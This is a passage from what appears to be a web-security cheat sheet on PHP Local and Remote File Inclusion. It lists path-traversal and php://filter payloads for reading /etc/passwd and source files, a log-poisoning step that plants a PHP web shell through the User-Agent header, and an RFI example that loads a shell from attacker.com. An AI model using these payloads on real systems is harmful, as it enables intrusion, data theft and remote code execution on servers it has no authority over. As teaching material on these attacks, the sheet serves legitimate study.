 ***Others***:
```
?page=../../../../etc/passwd
?page=php://filter/convert.base64-encode/resource=index.php
?page=....//....//....//etc/passwd
```
### 🧠 Useful Tricks

- **Log Poisoning** – Inject PHP code into logs (e.g. via User-Agent) and then include the log file to execute code.
- **Wrapper abuse** – Use PHP streams like `php://filter`, `php://input`, `data://` to read or inject code.
##### Example: Log Poisoning for RCE
1. Set User-Agent to PHP payload:
    ```php
    <?php system($_GET['cmd']); ?>
    ```
2. Access the log:
    ```
    ?page=/var/log/apache2/access.log&cmd=id
    ```

---

## 🌐 Remote File Inclusion (RFI)

### 📌 What Is It?

**RFI** allows attackers to load and execute a script from a remote server.
- Requires `allow_url_include = On` in `php.ini`.
### Risks and Impact
- Remote Code Execution
- Sensitive Information Disclosure
- Denial Of Service (DoS)
### 💥 Exploitation Example

1. Payload:
    ```text
    ?page=http://attacker.com/shell.txt
    ```
2. Remote file (hosted on attacker's server):
    ```php
    <?php system($_GET['cmd']); ?>
    ```
3. Execute:
    ```text
    ?page=http://attacker.com/shell.txt&cmd=whoami
    ```

---
